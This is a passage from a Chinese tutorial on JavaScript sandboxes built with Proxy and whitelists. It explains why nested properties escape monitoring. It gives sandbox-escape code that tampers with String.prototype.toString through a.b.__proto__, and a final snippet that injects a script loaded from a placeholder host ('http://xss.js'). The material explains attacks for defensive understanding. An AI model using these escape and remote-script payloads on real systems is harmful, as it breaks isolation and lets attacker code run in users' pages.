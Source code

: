 换一个稍微复杂的程序，测试一下白名单逻辑

```js
const code = `
    console.log(Math.random())
    console.log(foo)
    func(foo)
`;

```

![proxysandbox-white.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/5ab17bc75ff646fd803b6bfc8241060d~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.image?)

加入白名单机制后，这种方案已经比较完善，可以适用于一些比较简单的场景，但这种方案也有比较明显的缺点。

#### 缺点一：任意使用全局变量的问题

沙箱内的有些程序可能会使用很多 `window` 上的属性，这种情况下一昧的往白名单添加属性就不太合适，但不添加就无法正常运行。

#### 缺点二：防君子不防小人 | 沙箱逃逸

沙箱保证了内部程序执行的安全运行，但总有一些处心积虑的坏人，试图摆脱这种束缚，入侵内部程序，这种行为被成为**沙箱逃逸**。

Case1：利用沙箱执行上下文中对象的某个内部属性，Proxy 只可以拦截对象的一级属性，例如下面的上下文对象，`proxy.has` 无法监听 `a.b` 的访问

```js
const ctx = {
  a: {
    b: "b",
  },
};

```

利用这个特性，就可以实现一些邪恶的东西。由于 `a.b` 属性访问无法监听，可以通过 `a.b.__proto__` 获取到对应类型原型(ctx.a.b 为 String 类型)，便可以对原型上的方法进行篡改，例如下面对 `toString` 方法的篡改就能影响到外部环境。

```js
// 可执行环境
const ctx = {
  a: {
    b: "b",
  },
};
// 编写的内部沙箱逃逸程序
const code = `
  a.b.__proto__.toString = () => {
    new (() => {}).constructor("console.log('Eascpe')")()
  };
console.log('123'.toString())
`;

```

最终程序输出 `Eascpe`，可见通过 `a.b.__proto__` 成功绕开了监听，基于这种操作，不法人员就可以实现非常具备威胁的操作。

```js
const code = `
  a.b.__proto__.toString = () => {
    new (() => {}).constructor(
      "var script = document.createElement('script');
      script.src = 'http://xss.js;'
      script.type = 'text/javascript';
      document.body.appendChild(script);"
    )()
  };

```
